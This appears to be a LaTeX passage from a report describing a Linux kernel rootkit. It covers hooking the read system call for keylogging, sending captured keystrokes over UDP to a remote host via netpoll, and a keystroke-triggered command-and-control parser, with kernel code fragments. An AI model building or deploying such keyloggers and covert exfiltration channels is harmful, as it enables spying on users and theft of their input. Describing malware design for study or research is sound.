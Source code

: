 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
To unhide a module, we just have to reinsert it in the data structures.

\subsection{Keylogging}
Implementing local keylogging is very straight forward.
We just need to hook the \texttt{read} system call and write all characters entered into \texttt{stdin} to a file. 

For remote keylogging we just send \texttt{UDP} packets containing the keystrokes using the \texttt{netpoll} kernel API to a remote location. 
The only constraint is that netpoll can only send packets via an ethernet interface, not a wireless one. 

First, we need to initialize the netpoll structure with remote and local IP addresses, ports and some further configuration. 
The \texttt{netpoll} structure looks like this:

\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ];		/* the network device used */
          const char *name; 			
          union inet_addr local_ip, remote_ip;	/* local and remote ip address
								in network byte order */
          bool ipv6; 
          u16 local_port, remote_port; 		/* local and remote port */
          u8 remote_mac[ETH_ALEN];		/* set to broadcast */
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Any valid IPv4 address can be chosen for the local address. Once the structure is initialized, we call 

\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending UDP packets. 
Now the following function can be used to send the keystrokes combined with the process ID to the remove server.

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\subsection{Command and control}
The command and control interface also uses the hooked \texttt{read} system call.
For each keystroke the function \texttt{accept\_input(char * input)} is called.
To parse the commands, a state machine is being used.
First, it is checked for the char sequence \texttt{f7R\_}.
If this is detected, the state is changed to command enter mode.
As soon as a space character is entered, the state switches to parameter enter mode.
When a semicolon character is entered, the module tries to execute the command.
\end{document}
